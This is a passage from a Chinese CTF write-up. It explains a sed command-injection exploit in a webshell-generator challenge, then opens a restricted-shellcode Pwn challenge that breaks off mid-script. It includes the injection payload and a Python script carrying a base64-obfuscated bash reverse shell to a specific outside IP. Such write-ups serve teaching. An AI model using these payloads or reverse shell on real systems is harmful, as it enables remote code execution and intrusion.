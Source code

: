 ### Webshell Generator

题目难度：简单 非常简单（给出附件后）

1. 题目给出Webshell生成功能，可以填写Webshell的语言（只有PHP）、访问方法、Webshell密码（通过前端限制格式为[A-Za-z0-9]）。
2. 生成Webshell后会跳转到download.php下载webshell文件，存在很明显的路径/tmp/random_file_name，测试得知可以任意文件读。无权限读取/flag。

（给出附件相当于省略了任意文件读部分。）

1. 任意文件读取index.php得知赋值环境变量后调用了`sh generate.sh`，任意文件读取（或者直接HTTP访问/generate.sh可以下载）generate.sh得知使用`sed -i "s/METHOD/$METHOD/g"`替换Webshell模板中的关键字。因为使用了双引号，可以进行shell参数展开，但是不能进行shell命令注入，并且只能展开为单个参数。
2. [查询man手册或互联网](https://www.gnu.org/software/sed/manual/sed.html#sed-commands-list:~:text=newline is suppressed.-,e,-command)得知，GNU sed可以通过e指令执行系统命令。闭合原先的s指令，执行/readflag，会将flag插入到输出文件的第一行。自动跳转到download.php读取即可。

sed指令可以通过换行符分隔，[也可以通过;分隔](https://www.gnu.org/software/sed/manual/sed.html#sed-script-overview:~:text=can be separated by semicolons (%3B))。

通过F12修改页面源码或抓包软件绕过前端格式限制。

exp：提交key为

```JavaScript
/g;1e /readflag;s//
```

或者，如果你想反弹shell的话，也是可以的，但是稍微有点麻烦： https://www.sudokaikan.com/p/java-runtime-converter.html

```JavaScript
import requests
resp = requests.post("http://117.50.175.234:8001/index.php",data={"language":"PHP","key":'''/g; 1e bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDYuMTQuMTUuNTAvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" #s//''',"method":"1","filename":"2"})
print(resp.status_code,resp.text)
```

## Pwn

### checkin

0x100限制字符集shellcode。

直接用AE64梭，shellcode的时候栈上是有codebase指针的，pop出来即可。稍微调一下ae64的参数就行。

但是为什么那么多人都是测信道呢......

可能seccomp-tools一眼下去没看见write？

```Plain
0014: if (A!=read) goto 0020

0020: if (A!=1)    goto 0026  # aka if (A!=write)
```

下次不用chatgpt写沙盒了qwq

```Python
from pwn import *
#from ae64 import AE64
context(arch='amd64', os='linux', log_level='debug')

code="""push 0
    pop rdi
    push __NR_close
    pop rax
    syscall
    lea rdi, [rcx+0x120-0xad]
    xor rdx, rdx
    push rdx;pop rsi
    push 2
    pop rax
```